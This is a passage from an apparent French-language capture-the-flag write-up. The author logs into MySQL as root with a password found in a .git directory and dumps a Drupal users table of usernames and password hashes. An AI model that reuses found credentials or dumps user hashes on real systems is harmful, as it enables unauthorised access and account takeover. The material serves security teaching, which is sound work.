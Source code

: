 ## MySQL

En effet, il y a encore la base de données MySQL à explorer et ce, à l'aide du mot de passe ```JumpUpAndDown``` trouvé dans le répertoire .git.

```console
[spinkton@localhost ~]$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 52310
Server version: 5.0.45 Source distribution

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema | 
| drupal             | 
| flag               | 
| mysql              | 
| test               | 
+--------------------+
5 rows in set (0.01 sec)

mysql> use drupal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

mysql> select name, pass from users;
+-----------+----------------------------------+
| name      | pass                             |
+-----------+----------------------------------+
|           |                                  | 
| admin     | 49265c16d1dff8acef3499bd889299d6 | 
| Barbara   | bed128365216c019988915ed3add75fb | 
| Jim       | 2a5de0f53b1317f7e36afcdb6b5202a4 | 
| Steve     | 08d15a4aef553492d8971cdd5198f314 | 
| Sherry    | c3319d1016a802db86653bcfab871f4f | 
| Gene      | 9b9e4bbd988954028a44710a50982576 | 
| Harvey    | 7d29975b78825ea7c27f5c0281ea2fa4 | 
| John      | 518462cd3292a67c755521c1fb50c909 | 
| Johnathan | 6dc523ebd2379d96cc0af32e2d224db0 | 
| Susan     | 0d42223010b69cab86634bc359ed870b | 
| Dan       | 8f75ad3f04fc42f07c95e2f3d0ec3503 | 
| George    | ed2b1f468c5f915f3f1cf75d7068baae | 
| Jeff      | ca594f739e257245f2be69eb546c1c04 | 
| Stacey    | 85aca385eb555fb6a36a62915ddd8bc7 | 
| Juan      | 573152cc51de19df50e90b0e557db7fe | 
| Michael   | c7a4476fc64b75ead800da9ea2b7d072 | 
| Jerome    | 42248d4cb640a3fb5836571e254aee2b | 
| Tom       | 971dcf53e88e9268714d9d504753d347 | 
| Xavier    | 3005d829eb819341357bfddf541c175b | 
| Sally     | 7a1c07ff60f9c07ffe8da34ecbf4edc2 | 
+-----------+----------------------------------+
21 rows in set (0.00 sec)
```
